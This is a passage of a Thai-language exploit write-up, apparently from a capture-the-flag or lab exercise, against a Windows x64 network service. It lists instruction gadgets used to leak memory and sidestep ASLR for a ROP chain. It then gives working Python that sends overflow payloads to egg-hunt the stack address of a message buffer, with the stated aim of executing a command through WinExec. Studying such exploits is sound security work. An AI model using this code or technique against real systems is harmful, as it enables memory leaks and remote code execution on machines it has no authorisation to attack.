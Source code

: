     จะพบว่ามี gadget ที่เราสามารถทำไปใช้ประโยชน์ได้

    ```python
    XX => 0x65
    0x1:	mov	rax, qword ptr gs:[rcx]

    XX => 0x66
    0x1:	mov	rax, qword ptr [rcx]

    XX => 0x51
    0x1:	push	rcx
    0x2:	mov	rax, qword ptr [rcx]
    ```

    จากนั้นเราทำการ Leak ค่าต่าง ๆ ที่เราต้องการ(และไม่ต้องการ LOL) ออกมาด้วย Gadget `0x65` กับ `0x66` ลองอ่านอันนี้ และเอา Address ต่าง ๆ ไปทำ ROP โดยไม่ต้องกังวลเกี่ยวกับ ASLR 

    [Windows x64 - Find Kernel32.dll address [WinDbg]](https://www.notion.so/Windows-x64-Find-Kernel32-dll-address-WinDbg-502f66b617a646098a0a12e17fb32fa8)

4. **Egg Hunting หา Address ของ msg_buf** 

    ปกติเวลาเราจะ Execute command ผ่าน WinExec เนี่ยเราต้องการ Address ของ Command นั้น ๆ ด้วยซึ่งผมพยายามหา Gadget ที่ Leak Stack Address ออกมาแล้วมันไม่เจออ่ะ (หาทั้งใน Binary กับ Kernel32.dll เบย)

    เลยลองอีกวิธีคือ Leak จาก StackBase/StackLimit แล้วหามา Offset เอา

    [Windows x64 - StackBase/StackLimit [WinDbg]](https://www.notion.so/Windows-x64-StackBase-StackLimit-WinDbg-a7ed4be32ce04cdbb9890a58ac5f2a19)

    แต่ตอนแรกเลือกหา Offset จาก StackBase แล้วเอาไปคำนวนเลย สรุปว่า Address มันไม่ตรงแฮะ เลยต้องเปลี่ยนวิธี ในเมื่อเรามี StackBase/StackLimit แล้ว นั่นหมายความว่าเรารู้ว่ายังไง Address ของ Msg_buf ต้องอยู่ระหว่าง 2 Address นี้แน่ ๆ และเราสามารถ Leak Address ต่าง ๆ ออกมาได้(Gadget `0x66`) เลยลองมา Implement Egg Hunting เพื่อหา Address ดู

    ```python
    print("[!] Leaking msg_buf by egghunting...")
      for addr in range(stackBase-8, stackLimit, -8):
        s = connect()
        s.send(craft_header())
    		
        egg = b"\x41\42\x43\x44\x45\x46\x47\x48"
        msg = egg # Egg 
        msg += b"A"*(512-8)
        msg += b"\x66"  # mov rax, ptr qword [rcx]
        msg += b"\x00"*7 #padding for reverse_arr
        msg += p64(addr) #replace rcx <-- ImageBaseAddress + WinExec Offset

        s.send(msg)
        res = u64(s.recv(2048))
        # print("Addr:", p64(res))
        if res == u64(egg):
            print("[+] Leaked msg_buf Address :", str(hex(addr)))
            msg_buf_addr = p64(addr)
            break
        s.close() # close connection
        w8()
    ```
